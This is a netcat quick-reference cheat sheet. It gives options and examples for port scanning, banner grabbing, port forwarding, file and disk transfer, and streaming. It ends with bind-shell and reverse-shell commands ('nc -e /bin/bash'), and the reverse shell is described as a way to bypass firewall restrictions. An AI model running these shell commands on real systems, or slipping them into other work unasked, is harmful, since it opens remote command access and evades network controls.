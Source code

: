 ## Getting Started {.cols-5}

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections

```shell script
$ nc -lp port [host] [port]
```

### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
| ------ | -------------------------- | ---------------------------------------- |
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |

### Chat client-server {.col-span-2}

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000
```

## Netcat Examples

### Banner grabbing

```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```

or

```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25

```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080

```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```

### Proxy and port forwarding

```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```

or

```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```

Create a tunnel from one local port to another

### Download file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 < file.txt
```

Client

```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.

### Upload file

Server (192.168.1.9)

```shell script
$ nc -lv 8000 > file.txt
```

Client

```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:

### Directory transfer

Server (192.168.1.9)

```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.

### Encrypt transfer {.col-span-2}

Server (192.168.1.9)

```shell script
$ openssl enc -des3 -in file.txt -pass pass:password | nc -l 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 | openssl enc -des3 -d -pass pass:password -out file.txt
```

Encrypt data before transfering over the network

### Clones

Server (192.168.1.9)

```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client

```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda

### Video streaming

Server (192.168.1.9)

```shell script
$ cat video.avi | nc -l 8000
```

Client

```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat

### Remote shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000 -e /bin/bash
```

Client

```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission
to install them, then we can create remote shell using netcat also.

### Reverse shell

Server (192.168.1.9)

```shell script
$ nc -lv 8000
```

Client

```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections
